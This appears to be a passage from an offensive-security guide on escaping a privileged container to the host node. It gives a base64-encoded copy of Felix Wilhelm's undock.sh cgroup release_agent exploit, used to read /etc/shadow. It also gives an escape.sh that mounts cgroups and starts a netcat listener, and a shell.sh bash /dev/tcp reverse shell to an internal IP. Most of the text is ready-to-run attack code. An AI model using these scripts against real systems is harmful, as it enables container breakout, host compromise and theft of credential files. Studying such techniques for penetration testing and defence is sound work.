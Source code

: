 * Use Felix Wilhelm's undock.sh and hunt around with non-interactive access
* Use the metasploit module: docker_privileged_container_escape
* Use undock.sh to download your own reverse shell script and then execute it spawn the reverse shell


### Option 1: Use Felix Wilhelm's undock.sh and hunt around with non-interactive access

#### Create undock script that will automate the container escape POC
```bash
echo ZD1gZGlybmFtZSAkKGxzIC14IC9zKi9mcy9jKi8qL3IqIHxoZWFkIC1uMSlgCm1rZGlyIC1wICRkL3c7ZWNobyAxID4kZC93L25vdGlmeV9vbl9yZWxlYXNlCnQ9YHNlZCAtbiAncy8uKlxwZXJkaXI9XChbXixdKlwpLiovXDEvcCcgL2V0Yy9tdGFiYAp0b3VjaCAvbzsgZWNobyAkdC9jID4kZC9yZWxlYXNlX2FnZW50O2VjaG8gIiMhL2Jpbi9zaAokMSA+JHQvbyIgPi9jO2NobW9kICt4IC9jO3NoIC1jICJlY2hvIDAgPiRkL3cvY2dyb3VwLnByb2NzIjtzbGVlcCAxO2NhdCAvbwo= | base64 -d > undock.sh 
```
#### Then use the script to run whatever commands you want on the host: 
```bash
sh undock.sh "cat /etc/shadow"
```

### Option 2: Use Brandon Edwards and Nick Freeman’s version which upgrades you to an interactive shell

#### Create escape script that will use the container escape POC to execute a connect back script on the host

Drop this into `escape.sh`:

```bash
#!/bin/bash
overlay=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
mkdir /tmp/escape
mount -t cgroup -o blkio cgroup /tmp/escape
mkdir -p /tmp/escape/w
echo 1 > /tmp/escape/w/notify_on_release
echo "$overlay/shell.sh" > /tmp/escape/release_agent
sleep 3 && echo 0 >/tmp/escape/w/cgroup.procs &
nc -l -p 9001
```
#### Find the IP address of your POD
This next script, `shell.sh` is executed on the host node and it will call back to the listener on your pod, so you'll need to use the pod's IP


#### Create the connect back script
Drop this into `/shell.sh` on the pod. If you change the name of your script, change it in escape.sh as well. 
```
#!/bin/bash
/bin/bash -c "/bin/bash -i >& /dev/tcp/10.100.254.137/9001 0>&1"
```
